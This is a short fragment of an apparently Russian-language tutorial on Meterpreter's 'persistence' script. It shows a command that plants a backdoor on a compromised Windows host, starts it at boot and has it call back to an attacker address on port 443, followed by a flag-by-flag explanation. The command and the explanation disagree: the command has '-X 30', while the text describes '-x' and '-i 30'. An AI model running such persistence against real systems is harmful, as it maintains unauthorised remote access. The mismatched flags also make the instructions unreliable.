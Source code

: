 meterpreter >run persistence –A –L c:\\ -X 30 –p 443 –r 192.168.1.113


Затем эта команда запустит скрипт  persistence, который запустит соответствующий обработчик ( -A ).
Поместит Meterpreter в c: \\ в целевой системе ( -L c: \\ ).
Запустит прослушиватель при загрузке системы ( -x ).
Каждые 30 секунд проверяет соединение ( -i 30 ).
Подключается к порту 443 ( -p 443 ) и подключается к локальной системе.